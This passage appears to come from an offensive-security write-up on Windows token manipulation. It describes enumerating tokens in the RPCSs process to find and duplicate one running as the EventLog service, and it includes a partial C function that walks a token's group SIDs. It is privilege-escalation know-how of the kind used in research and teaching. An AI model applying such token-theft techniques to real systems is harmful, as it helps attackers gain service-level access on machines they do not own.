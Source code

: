 ![RPCSs token list](./RPCSs-token-list.png)

In that case we see that this Local Service Token is for the *WinHttpAutoProxySvc*. So lets enumerate the RPCSs Process and maybe there is also a token exposed for the EventLog process.


We can do this by duplicating one token after the next and check if the token is running as EventLog.

```c
DWORD checkTokenGroups(HANDLE hToken) {
	DWORD dwSuccess = FAIL;
	DWORD dwSizeneeded = 0;
	PTOKEN_GROUPS pTokenGroups = NULL;
	pTokenGroups = getTokenInfos(hToken, &dwSizeneeded);

	if (pTokenGroups == NULL) {
		printf("[-] No Token Groups found\n");
		return dwSuccess;
	}


	PSID_AND_ATTRIBUTES pSidAttributes, pSidAttributesorig = NULL;
	pSidAttributesorig = pTokenGroups->Groups;
	DWORD dwCountGroups = 0;
	dwCountGroups = pTokenGroups->GroupCount;

	

	for (DWORD i = 0; i < dwCountGroups; i++) {
		pSidAttributes = (PSID_AND_ATTRIBUTES)((PBYTE)pSidAttributesorig + (BYTE)(i * (BYTE)sizeof(SID_AND_ATTRIBUTES)));

		PSID pSID = NULL;
		pSID = (PSID)(pSidAttributes->Sid);

		LPTSTR psidString = NULL;
		WCHAR username[MAX_NAME] = { 0x00 };
```